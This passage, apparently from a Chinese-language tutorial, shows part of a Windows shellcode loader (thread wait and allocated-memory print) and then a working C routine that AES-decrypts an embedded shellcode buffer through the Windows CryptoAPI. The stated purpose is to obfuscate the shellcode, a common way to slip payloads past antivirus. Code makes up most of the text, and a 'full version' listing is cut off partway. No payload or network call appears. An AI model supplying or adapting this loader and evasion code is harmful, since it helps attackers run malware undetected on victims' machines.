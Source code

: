 ```
    printf("\n\nalloc_mem : %p\n", alloc_mem);
    WaitForSingleObject(tHandle, INFINITE);

    return 0;


    return TRUE;
    }
}
```
这里没写入shellcode，因为要对shellcode进行混淆
## AES混淆
AES加密脚本：
```
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
    HCRYPTKEY hKey;

    if (!CryptAcquireContextW(&hProv, NULL, NULL, PROV_RSA_AES, CRYPT_VERIFYCONTEXT)) {
        printf("Failed in CryptAcquireContextW (%u)\n", GetLastError());
        return;
    }
    if (!CryptCreateHash(hProv, CALG_SHA_256, 0, 0, &hHash)) {
        printf("Failed in CryptCreateHash (%u)\n", GetLastError());
        return;
    }
    if (!CryptHashData(hHash, (BYTE*)key, keyLen, 0)) {
        printf("Failed in CryptHashData (%u)\n", GetLastError());
        return;
    }
    if (!CryptDeriveKey(hProv, CALG_AES_256, hHash, 0, &hKey)) {
        printf("Failed in CryptDeriveKey (%u)\n", GetLastError());
        return;
    }

    if (!CryptDecrypt(hKey, (HCRYPTHASH)NULL, 0, 0, (BYTE*)shellcode, &shellcodeLen)) {
        printf("Failed in CryptDecrypt (%u)\n", GetLastError());
        return;
    }

    CryptReleaseContext(hProv, 0);
    CryptDestroyHash(hHash);
    CryptDestroyKey(hKey);

}
```
完整版：
```
#include <windows.h>
#include <wincrypt.h>
#include <stdio.h>
#pragma comment (lib, "crypt32.lib")

#pragma comment (lib, "user32.lib")

void DecryptAES(char* shellcode, DWORD shellcodeLen, char* key, DWORD keyLen) {
    HCRYPTPROV hProv;
    HCRYPTHASH hHash;
```